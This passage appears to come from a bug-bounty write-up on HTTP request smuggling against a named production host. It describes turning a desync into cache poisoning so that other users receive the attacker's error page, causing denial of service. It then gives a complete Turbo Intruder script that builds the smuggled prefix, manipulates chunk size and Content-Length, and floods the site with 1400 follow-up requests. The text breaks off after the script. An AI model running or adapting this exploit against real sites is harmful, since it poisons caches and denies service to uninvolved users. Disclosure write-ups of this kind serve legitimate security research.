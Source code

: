 Now lets change it up and try to cause cache poisoning and move it to desync attack.  The headers don't change much but this will cause the next valid request to be served with the error page. Load the request into turbo intruder to make finding it easier. This will in affect server users with my error page causing DOS. Notice in http-smuggling-dashboard-fortmatic2.png that the 200 status code are reflected back when you load the page. this is because when the error page happens it reflects a valid response to me. 

Turbo:

```
# if you edit this file, ensure you keep the line endings as CRLF or you'll have a bad time
import re

def queueRequests(target, wordlists):

    # to use Burp's HTTP stack for upstream proxy rules etc, use engine=Engine.BURP
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    # This will prefix the victim's request. Edit it to achieve the desired effect.
    prefix = '''GET / HTTP/1.1
Host: x2.fortmatic.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''

    chunk_size = hex(len(prefix)).lstrip("0x")
    attack = target.req.replace('0\r\n\r\n', chunk_size+'\r\n'+prefix+'\r\n0\r\n\r\n')
    content_length = re.search('Content-Length: ([\d]+)', attack).group(1)
    attack = attack.replace('Content-Length: '+content_length, 'Content-length: '+str(int(content_length)+len(chunk_size)-3))
    engine.queue(attack)

    for i in range(1400):
        engine.queue(target.req)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```

Request

